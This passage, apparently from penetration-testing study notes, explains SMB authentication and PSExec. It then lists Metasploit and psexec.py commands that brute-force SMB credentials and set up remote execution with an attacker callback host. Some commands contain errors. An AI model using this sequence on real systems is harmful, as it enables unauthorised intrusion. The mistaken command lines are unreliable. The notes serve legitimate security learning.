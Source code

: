 Note: SMB usually runs on port 445. Older versions run alongside NetBIOS in port 139.

Samba is the open source implementation of SMB. We will focus on SMB first, and we'll see Samba
later.

<a id=2.3.2.1></a>
#### SMB authentication

There are two SMB auth levels:

- User authentication: users must prove a username and password in order to authenticate
with the SMB server in order to access a share.
- Share authentication: Users must provide a password in order to access a restricted share.

Both levels use a challenge response authentication system.

A -> B Authentication Request
B -> A Encrypted string with user's hash
A -> B Encrypted string
B -> A Access granted.

<a id=2.3.2.2></a>
#### PSExec

Lightweight Telnet implementation developed by Microsoft that allows access to execute processes on 
remote systems using any user's credentials. It authenticates via SMB.

We can use PSExec to legitimately authenticate to a server and run arbitrary command or launch a remote
command prompt.

Common techniques to gain access to credentials is through SMB brute forcing. Only after we gain credentials
we will be able to execute commands.

<a id=2.3.2.3></a>
#### Exploitation
```bash
msf5 > use auxiliary/scaner/smb/smb_login
msf5 > set RHOSTS [TARGET]
msf5 > set USER_FILE /path/to/usernames
msf5 > set PASS_FILE /path/to/passwords
msf5 > set verbose FALSE
# Now lets use PsExec.
$ psexec.py [USERNAME]@[IP] [PROGRAM TO EXECUTE]
Password: [PASSWORD]
C:\Windows\system32> echo jaked!!!!!
jaked!!!!!
msf5 > set exploit/windows/smb/psexec
msf5 > set RHOSTS [TARGET]
msf5 > set SMBUser [USERNAME]
msf5 > set SMBPass [PASSWORD]
msf5 > set LHOST [ATTACKER IP]
msf5 > set LPORT [ATTACKER PORT]
```
